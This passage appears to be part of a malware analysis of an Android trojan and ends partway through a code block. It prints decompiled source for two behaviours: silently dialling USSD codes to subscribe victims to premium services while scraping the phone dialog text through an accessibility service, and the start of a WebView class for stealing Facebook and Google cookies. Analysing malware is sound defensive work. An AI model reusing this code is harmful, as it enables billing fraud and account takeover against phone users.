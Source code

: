 # Premium services

The malware will try to subscribe to a premium service without the knowledge of the user which will charge the SIM more money.

```cs
private void launchUssdCode(Context context0, String s) throws Exception {
        this.ussdCalledTimeInMs = System.currentTimeMillis();
        Timber.d("log -> [%s]", new Object[]{s});
        Intent intent0 = new Intent("android.intent.action.CALL", Uri.parse("tel:" + s.replaceAll("#", Uri.encode("#"))));
        intent0.addFlags(0x10000000);
        intent0.addFlags(0x20000000);
        context0.startActivity(intent0);
    }

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
        if(accessibilityEvent0 != null && accessibilityEvent0.getSource() != null && (s.equalsIgnoreCase("com.android.phone")) && (accessibilityEvent0.getClassName().toString().toLowerCase().contains("dialog")) && !accessibilityEvent0.getText().isEmpty()) {
            StringBuilder stringBuilder0 = new StringBuilder();
            for(Object object0: accessibilityEvent0.getText()) {
                stringBuilder0.append(" | ");
                stringBuilder0.append(((CharSequence)object0));
            }

            UssdComponent.sendPhoneNumber(stringBuilder0.toString());
        }

        return false;
    }
```

# Steal cookies

The malware will try to steal Cookies from APPs such as `Facebook` and `google`. 

```cs
public class CookiesReaderViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

    private InjectCookiesModel cookieModel;
    private LifeCycleListener lifeCycleListener;
    private WebView webView;

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0) {
        this.cookieModel = injectCookiesModel0;
    }

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0, LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0) {
        this.cookieModel = injectCookiesModel0;
        this.lifeCycleListener = cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
```